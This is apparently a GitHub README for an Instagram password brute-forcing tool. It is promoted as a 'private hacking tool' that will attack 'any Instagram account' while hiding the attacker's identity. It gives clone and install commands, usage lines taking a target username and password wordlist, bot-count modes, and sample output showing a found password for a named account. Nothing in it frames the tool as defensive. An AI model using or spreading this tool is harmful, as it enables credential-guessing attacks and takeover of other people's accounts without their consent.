 # IG-HACK-ZOOM-HACKERS
INSTA HACKING PRIVATE TOOL

### Instagram Bruter

[Version]https://instagram.com/veerasimhan_mass?igshid=YmMyMTA2M2Y=
[Instagram]https://instagram.com/veerasimhan_mass?igshid=YmMyMTA2M2Y=


This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden.

### NOTICE

PRIVATE TOOL!.

### Support me
### Requirements

-   Python _v3.x.x_
-   ~~Kali Linux 2.0~~
-   ~~TOR~~

### Install Dependencies

```
pip3 install -r requirements.txt
```

### C:\Users\veerasimhan_mass\Desktop\Instagram>python3 instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots

```
###Install
apt update && apt upgrade -y
apt install git
apt install python
apt install python2
git clone https://github.com/veerasimhan-mass/IG-HACK-ZOOM-HACKERS.git
cd IG-HACK-ZOOM-HACKERS
### Usage

```
python3 instagram.py <username> <wordlist> -m <mode>
```
###RUN
python3 instagram.py <username> /sdcard/Download/password.txt -m 3
### Bots(Threads)

-   4 bots: 64 passwords at a time
-   8 bots: 128 passwords at a time
-   16 bots: 256 passwords at a time
-   32 bots: 512 passwords at a time

### Modes

-   0: 32 bots
-   1: 16 bots
-   2: 8 bots
-   3: 4 bots

### Chill mode

This mode uses only 4 bots, or 64 passwords at a time.

```
C:\Users\veerasimhan_mass\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 3
```

### Moderate mode 1

This mode uses 8 bots, or 128 passwords at a time.

```
C:\Users\veerasimhan_mass\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 2
### Savage mode

This mode uses 32 bots, or 512 passwords at a time.

```
C:\Users\veerasimhan_mass\Desktop\Instagram>python3 instagram.py Sami09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run

```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Stop

```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1

[+] Password: Sami123
